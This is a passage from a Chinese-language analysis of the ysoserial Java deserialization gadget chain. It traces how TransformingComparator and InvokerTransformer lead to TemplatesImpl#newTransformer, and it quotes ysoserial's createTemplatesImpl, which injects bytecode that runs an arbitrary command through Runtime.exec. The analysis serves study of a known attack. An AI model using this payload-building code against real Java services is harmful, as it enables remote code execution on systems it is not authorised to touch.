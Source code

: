 而这里会导致调用`TransformingComparator#compare`函数，利用链中构造`TransformingComparator`的`transformer`为`InvokerTransformer`，指定的调用方法是`TemplatesImpl#newTransformer`。根据`ysoserial`的代码来看`TemplatesImpl`类有两种，`org.apache.xalan.xsltc.trax.TemplatesImpl`或`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`。

而决定使用哪一个，由`System.getProperty("properXalan", "false")`决定，`properXalan`属性的含义暂没搜到，目前只要清楚它的作用即可。

### TemplatesImpl

从`newTransformer`开始，后面就是`TemplatesImp`利用链的内容了，`ysoserial`中的相关代码如下

```java
public static <T> T createTemplatesImpl ( final String command, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )
        throws Exception {
    final T templates = tplClass.newInstance();

    // use template gadget class
    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));
    pool.insertClassPath(new ClassClassPath(abstTranslet));
    final CtClass clazz = pool.get(StubTransletPayload.class.getName());
    // run command in static initializer
    // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
    String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
        command.replace("\\", "\\\\").replace("\"", "\\\"") +
        "\");";
    clazz.makeClassInitializer().insertAfter(cmd);
    // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
    clazz.setName("ysoserial.Pwner" + System.nanoTime());
    CtClass superC = pool.get(abstTranslet.getName());
    clazz.setSuperclass(superC);

    final byte[] classBytes = clazz.toBytecode();

    // inject class bytes into instance
    Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
        classBytes, ClassFiles.classAsBytes(Foo.class)
    });

    // required to make TemplatesImpl happy
    Reflections.setFieldValue(templates, "_name", "Pwnr");
    Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
    return templates;
}
```

在构造时，后3个参数有两种可能情况，这里分析时以下面对为例

```
TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class
```

这个函数主要通过`javassist`工具，构造了一个自定义的类，并且在里面初始化了一个静态代码块用于执行`cmd`中的内容，最后将它放入`_bytecodes`中。
~需要注意的是，这个自定义的类，它的父类为`AbstractTranslet`，原因后面会看到。~
